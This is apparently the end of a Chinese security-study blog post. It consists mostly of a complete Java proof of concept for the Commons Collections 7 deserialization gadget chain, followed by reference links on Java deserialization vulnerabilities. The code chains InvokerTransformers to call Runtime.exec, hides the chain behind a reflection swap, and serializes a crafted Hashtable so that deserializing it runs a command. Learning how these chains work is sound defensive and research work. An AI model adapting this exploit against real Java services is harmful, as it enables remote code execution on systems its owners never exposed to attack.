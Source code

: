 | ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>52<br>53<br>54<br>55<br>56<br>57<br>58<br>59<br>60<br>61<br>62<br>63<br>64<br>65<br>66<br>67<br>``` | ```java<br>import org.apache.commons.collections.Transformer;<br>import org.apache.commons.collections.functors.ChainedTransformer;<br>import org.apache.commons.collections.functors.ConstantTransformer;<br>import org.apache.commons.collections.functors.InvokerTransformer;<br>import org.apache.commons.collections.map.LazyMap;<br><br>import java.io.*;<br>import java.lang.reflect.Field;<br>import java.util.HashMap;<br>import java.util.Hashtable;<br>import java.util.Map;<br><br>public class CommonsCollections7 {<br><br>    public static void main(String[] args) throws IllegalAccessException, IOException, ClassNotFoundException, NoSuchFieldException {<br><br>        Transformer[] fakeTransformer = new Transformer[]{};<br><br>        Transformer[] transformers = new Transformer[] {<br>                new ConstantTransformer(Runtime.class),<br>                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),<br>                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),<br>                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})<br>        };<br><br>        //ChainedTransformer实例<br>        //先设置假的 Transformer 数组，防止生成时执行命令<br>        Transformer chainedTransformer = new ChainedTransformer(fakeTransformer);<br><br>        //LazyMap实例<br>        Map innerMap1 = new HashMap();<br>        Map innerMap2 = new HashMap();<br><br>        Map lazyMap1 = LazyMap.decorate(innerMap1,chainedTransformer);<br>        lazyMap1.put("yy", 1);<br><br>        Map lazyMap2 = LazyMap.decorate(innerMap2,chainedTransformer);<br>        lazyMap2.put("zZ", 1);<br><br>        Hashtable hashtable = new Hashtable();<br>        hashtable.put(lazyMap1, "test");<br>        hashtable.put(lazyMap2, "test");<br><br><br>        //通过反射设置真的 ransformer 数组<br>        Field field = chainedTransformer.getClass().getDeclaredField("iTransformers");<br>        field.setAccessible(true);<br>        field.set(chainedTransformer, transformers);<br><br>        //上面的 hashtable.put 会使得 lazyMap2 增加一个 yy=>yy，所以这里要移除<br>        lazyMap2.remove("yy");<br><br>        //序列化<br>        ByteArrayOutputStream baos = new ByteArrayOutputStream();<br>        ObjectOutputStream oos = new ObjectOutputStream(baos);<br>        oos.writeObject(hashtable);<br>        oos.flush();<br>        oos.close();<br><br>        //测试反序列化<br>        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());<br>        ObjectInputStream ois = new ObjectInputStream(bais);<br>        ois.readObject();<br>        ois.close();<br>    }<br><br>}<br>``` |

## [](#%E5%8F%82%E8%80%83)参考

[phith0n Java 漫谈系列](https://wx.zsxq.com/dweb2/index/group/2212251881)

[Java 反序列化漏洞原理解析](https://xz.aliyun.com/t/6787#toc-11)

[Java 反序列化漏洞从入门到关门](https://www.freebuf.com/articles/web/271275.html)

[从 0 开始学 Java 反序列化漏洞](https://yinwc.github.io/2020/02/08/java%e5%8f%8d%e5%ba%8f%e5%88%97%e5%8c%96%e6%bc%8f%e6%b4%9e/)

[深入理解 JAVA 反序列化漏洞](https://paper.seebug.org/312/)

[Java 反序列化利用链补全计划](https://0range228.github.io/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE%E8%A1%A5%E5%85%A8%E8%AE%A1%E5%88%92/)

[Commons-Collections 利用链分析](https://wx.zsxq.com/dweb2/index/group/2212251881)

[CC 链 1-7 分析](https://xz.aliyun.com/t/9409)

[Java 安全学习 Day2 – ysoserial CC 系列](https://x5tar.com/posts/java-sec-day2/)
